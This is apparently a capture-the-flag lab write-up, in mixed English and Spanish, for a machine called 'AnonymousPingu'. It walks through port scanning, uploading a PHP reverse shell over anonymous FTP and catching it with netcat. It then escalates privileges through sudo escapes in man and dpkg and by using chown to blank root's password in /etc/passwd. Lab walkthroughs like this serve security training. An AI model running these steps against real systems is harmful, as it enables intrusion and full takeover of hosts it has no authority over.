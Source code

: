 # AnonymousPingu

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining ports

More precise scan of the FTP port:

```ruby
    nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![alt text](Imagenes/Anon_1.png)

Vemos que parece los ficheros de una pagina web , hay un directrio muy interesante que se llama 
"upload". Posiblemente tengamos que subir algun fichero para hacer una shell reversa.

## Examining the Web Page and Its Infrastructure
Si examinamos la pagina nos esntoramos lo siguiente:

![alt text](Imagenes/Anon_2.png)

Lo mas importante en la barra es el menu "Acceder al backend" si pinchamos nos dirige a la carpeta upload:

## Intrusion

Para hacer la intrusion he usado este script de github de "pentestmonkey"

https://github.com/pentestmonkey/php-reverse-shell

Por lo tanto he usado la herramienta ftp para subir el fichero reverse.php configurando nuestra IP y nuestro puerto
y usando la herrameinta netcat para hacer la conexion.

![alt text](Imagenes/Anon_3.png)

Si nos ponemos en escucha por el puerto 1234 con netcat:

```ruby
nc -lvnp 1234
```

y ejecutamos en el neavegador el archivo .php nos devuleve la shell
![alt text](Imagenes/Anon_4.png)

Por lo tanto estamos autenticados como el usuario "data"

# Tratamiento de la TTY

Para que nos sea más comodo vamos a hacer un tratamiento a la terminal para que no haya errores en algunos comados 
y funcionen.

Para ello lo primero ejecutamos la siguiente orden :

```ruby 
script /dev/null -c bash
```
Pulsamos ctlr + Z salimos de la terminal y hacemos el siguientes comandos:

```ruby 
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

tendremos una terminal mas comoda.

## Escalation privilege

Para la escalada de privilegios vamos a utilizar el siguiente comando:
```ruby
sudo -l
``
Vemos los comandos que podemos ejecutar como root u otros usarios usando sudo:
```ruby
$ sudo -l
Matching Defaults entries for www-data on debddace088e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on debddace088e:
    (pingu) NOPASSWD: /usr/bin/man
```

Por lo tanto si ejecutamos la siguiente comando podemos hacerlo como el usuario pingu

```ruby
sudo -u pingu man man
```
Dentro del manual podemos ejecutar la siguiente 
```ruby
!/bin/bash
```
Vemos que nos mudamos de usuario y accedemos como pingu 

![alt text](Imagenes/Anon_5.png)

Si ejecutamos la orden anterior vemos nuevos comandos que podemos ejecutar como el ususario gladys 

```ruby
Matching Defaults entries for pingu on 34882fa66e15:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pingu may run the following commands on 34882fa66e15:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg

```

Si vamos a la pagina de GTObins vemos que podemos explotarlar de la siguiente manera:

```ruby
sudo -u gladys dpkg -l
!/bin/sh
```

Ganamos acceso con el usuario "gladys" de forma similar a la anterior.

![alt text](Imagenes/Anon_6.png)


Si volvemos a ejecutar el comando  `sudo -l` 

```ruby
Matching Defaults entries for gladys on 34882fa66e15:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 34882fa66e15:
    (root) NOPASSWD: /usr/bin/chown
```

Para hacer esta escalada podemos hacerla de varias maneras , la forma mas sencilla es intentar editar el archivo `/etc/passwd`
quitando para ello la comprobacion cuando se pide la contraseña del usuario root.

Para ello tenemos que darle permiso al usuario gladys y posteriormente sobreescribir el archivo.

```ruby
sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd
```

Luego con la herramienta `sed` eliminamos el caracter "x" que tiene en la linea root , creamos un archivo temporal en /tmp

```ruby
sed 's/^root:[^:]*:/root::/' /etc/passwd > /tmp/passwd.tmp
```

Por ultimo sobreescribimos el fichero `/etc/passwd`

```ruby 
cp /tmp/passwd.tmp /etc/passwd
```

![alt text](Imagenes/Anon_7.png)